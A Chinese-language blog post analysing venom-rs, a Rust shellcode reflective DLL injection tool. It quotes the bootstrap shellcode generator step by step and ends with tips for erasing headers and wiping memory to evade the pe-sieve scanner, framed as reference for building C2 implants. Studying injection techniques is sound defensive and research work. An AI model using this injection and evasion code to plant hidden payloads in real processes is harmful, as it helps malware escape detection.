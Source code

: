 ```yaml
---
title: srdi-rs项目学习
date: '2025-06-02 21:16:34'
permalink: /post/srdirs-project-learning-z1ry7kq.html
layout: post
published: true
---
```






本篇文章对 [memN0ps/venom-rs: Rusty Injection - Shellcode Reflective DLL Injection (sRDI) in Rust](https://github.com/memN0ps/venom-rs) 进行分析学习，该项目完成了 rust 下 rdi 的实现，在写 c2 的时候有一定的参考意义。

## 项目分析

### 项目总体分析

项目目录如下所示，共有四个文件夹，分别为 generate_shellcode、inject、payload、reflective_loader，其中 inject 顾名思义是注入模块，是作者为了方便测试生成的 shellcode 所写的，这里不多做分析，payload 模块也就是要执行的功能模块，作者在这里写了弹窗功能，也不多做分析。

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602212116-8e3h6og.png)

### reflective_loader

该部分实现了一个名为 `loader` ​的导出函数，用于反射加载 payload，和常规的 rdi 一样，其流程如下图所示：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250602213922-ib32yct.png)

在这里不多解释流程，但是在最后我们会讨论一些优化的点。

### generate_shellcode

generate_shellcode 这一部分是该项目的核心所在，而该部分的核心就是 `Bootstrap` ​的构造，下面对 `Bootstrap` ​的构造进行详细分析。

首先 shellcode 需要找到自身在内存中的位置，通过 `call 0x00`​ 的方式，将下一条指令的位置压入栈中，进而 `pop rcx;mov r8, rcx`​,将位置保存到 rcx 和 r8 中。

```rust
    //
    // Step 1) Save the current location in memory for calculating addresses.
    //

    // call 0x00 (This will push the address of the next function to the stack)
    bootstrap.push(0xe8);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);
    bootstrap.push(0x00);

    // pop rcx - This will pop the value we saved on the stack into rcx to capture our current location in memory
    bootstrap.push(0x59);

    // mov r8, rcx - We copy the value of rcx into r8 before we start modifying RCX
    bootstrap.push(0x49);
    bootstrap.push(0x89);
    bootstrap.push(0xc8);
```

紧接着，对齐栈指针并且为函数调用开辟影子空间。`push rsi;mov rsi, rsp;and rsp, 0x0FFFFFFFFFFFFFFF0`​，先备份 rsi 和 rsp，然后将 rsp 按照 16 字节对齐（windows 调用约束规定），`sub rsp, 0x30`​ ​开辟影子空间，因为 `loader`​ ​函数共有六个参数，所以要预留 `6 × 8 = 48`​ ​字节空间，即使前四个参数通过寄存器传参这里也需要预留空间。

```rust
    // Step 2) Align the stack and create shadow space
    // push rsi - save original value
    bootstrap.push(0x56);

    // mov rsi, rsp - store our current stack pointer for later
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xe6);

    // and rsp, 0x0FFFFFFFFFFFFFFF0 - Align the stack to 16 bytes
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xe4);
    bootstrap.push(0xf0);

    // sub rsp, 0x30 (48 bytes) - create shadow space on the stack, which is required for x64. A minimum of 32 bytes for rcx, rdx, r8, r9. Then other params on stack
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0xec);
    bootstrap.push(6 * 8); //6 args that are 8 bytes each
```

然后我们开始参数传递，`loader` ​函数的签名为：`pub unsafe extern "system" fn loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)`​，

首先是第 5 个参数，是 `_shellcode_bin`​，其实也就是 shellcode 的其实位置，将之前 rcx 中的值减去 5 即可，这个参数在 `loader`​ ​函数中并没有使用，但是我们可以自己加上清理内存的步骤。然后是第六个参数，其实就是一个 flag 值，用来判断是执行 `DllMain`​ ​还是其他导出函数。

```rust
    // Step 3) Setup reflective loader parameters: Place the last 5th and 6th args on the stack since, rcx, rdx, r8, r9 are already in use for our first 4 args.
    // mov qword ptr [rsp + 0x20], rcx (shellcode base + 5 bytes) - (32 bytes) Push in arg 5
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0x4C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg
    // sub qword ptr [rsp + 0x20], 0x5 (shellcode base) - modify the 5th arg to get the real shellcode base
    bootstrap.push(0x48);
    bootstrap.push(0x83);
    bootstrap.push(0x6C);
    bootstrap.push(0x24);
    bootstrap.push(4 * 8); // 5th arg

    bootstrap.push(5); // minus 5 bytes because call 0x00 is 5 bytes to get the allocate memory from VirtualAllocEx from injector
    // mov dword ptr [rsp + 0x28], <flags> - (40 bytes) Push arg 6 just above shadow space
    bootstrap.push(0xC7);
    bootstrap.push(0x44);
    bootstrap.push(0x24);
    bootstrap.push(5 * 8); // 6th arg
    bootstrap.append(&mut flags_value.to_le_bytes().to_vec().clone());
```

然后是第四个参数 `user_data_len`​，这是传递给 payload 的参数的长度，第三个参数 `user_data`​，该参数的位置在 srdi 的最后，还记得我们前面 r8 中已经存了 `shellcode的位置+5`​，所以我们再加上剩下的 bootstrap 以及 loader、payload 就找到 userdata 了，即 `add r8,(BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() + payload_bytes.len();`​

然后是第二个参数`function_hash`​，要执行的函数的hash，直接mov就行了。第一个参数`payload_dll`​，payload的位置，`add rcx, (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len()`​，道理和前面`user_data`​一样，不再多讲。

```rust
    // Step 4) Setup reflective loader parameters: Place the 1st, 2nd, 3rd and 4th args in rcx, rdx, r8, r9

    // mov r9, <parameter_length> - copy the 4th parameter, which is the length of the user data into r9
    bootstrap.push(0x41);
    bootstrap.push(0xb9);
    let parameter_length = parameter_value.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut parameter_length.to_le_bytes().to_vec().clone());

    // add r8, <parameter_offset> + <payload_length> - copy the 3rd parameter, which is address of the user function into r8 after calculation
    bootstrap.push(0x49);
    bootstrap.push(0x81);
    bootstrap.push(0xc0); // We minus 5 because of the call 0x00 instruction
    let parameter_offset =  (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32 + payload_bytes.len() as u32;
    bootstrap.append(&mut parameter_offset.to_le_bytes().to_vec().clone());

    // mov edx, <prameter_hash> - copy the 2nd parameter, which is the hash of the user function into edx
    bootstrap.push(0xba);
    bootstrap.append(&mut function_hash.to_le_bytes().to_vec().clone());

    // add rcx, <payload_offset> - copy the 1st parameter, which is the address of the user dll into rcx after calculation
    bootstrap.push(0x48);
    bootstrap.push(0x81);
    bootstrap.push(0xc1); // We minus 5 because of the call 0x00 instruction
    let payload_offset = (BOOTSTRAP_TOTAL_LENGTH - 5) + loader_bytes.len() as u32; // This must u32 or it breaks assembly
    bootstrap.append(&mut payload_offset.to_le_bytes().to_vec().clone());
```

接下来就是`call <loader_offset>`​，同样的按照上面的方法计算出loader函数和当前位置偏移即可偏移，最后恢复寄存器的值，`ret`​即可。

End Bootstrap之后继续构造shellcode，后面分别添加上loader、payload、user_data即可。

```rust
    // Step 5) Call reflective loader function

    // call <loader_offset> - call the reflective loader address after calculation
    bootstrap.push(0xe8);
    // This must u32 or it breaks assembly
    let loader_address = (BOOTSTRAP_TOTAL_LENGTH - bootstrap.len() as u32 - 4 as u32) + loader_offset as u32;    
    bootstrap.append(&mut loader_address.to_le_bytes().to_vec().clone());

    // Step 6) Reset the stack to how it was and return to the caller

    // mov rsp, rsi - Reset our original stack pointer
    bootstrap.push(0x48);
    bootstrap.push(0x89);
    bootstrap.push(0xf4);

    // pop rsi - Put things back where we left them
    bootstrap.push(0x5e);

    // ret - return to caller and resume execution flow (avoids crashing process)
    bootstrap.push(0xc3);

    // End Bootstrap

 	let mut shellcode: Vec<u8> = Vec::new();

    // Bootstrap shellcode populated with the correct offsets and values
    shellcode.append(&mut bootstrap);

    // Reflective Loader (RDI)
    shellcode.append(loader_bytes);

    // Payload DLL (Existing DLL)
    shellcode.append(payload_bytes);

    // Parameter Value (User-Data)
    shellcode.append(&mut parameter_value.as_bytes().to_vec());
```

x64dbg下看bootstrap：

![](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/1719661787005-d85880a1-0a74-474e-8fa1-e5a54098c662.png)

最后整体布局如下：

![image](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/image-20250603140356-6svfdxx.png)

## 优化的点

下面讨论一些优化的点：

1. 在将payload复制的时候，文件头可以不用复制，擦除文件头
2. 修改内存段属性，注意内存属性的分配
3. 我们在`loader`​函数中传参，传的`_shellcode_bin`​参数并没有使用，可以利用这个参数将旧内存进行清理，可以在loader中清理BootStrap的，然后在新内存空间的payload中清理shellcode剩下的内存，或者直接在payload中清理整个shellcode

经过优化可达到bypass pe-sive的效果：

![82216cb6e7801822d61bdd009518ed5a](https://raw.githubusercontent.com/fdx-xdf/md_images/master/siyuan_img/82216cb6e7801822d61bdd009518ed5a-20250603142108-w1aaxas.png)
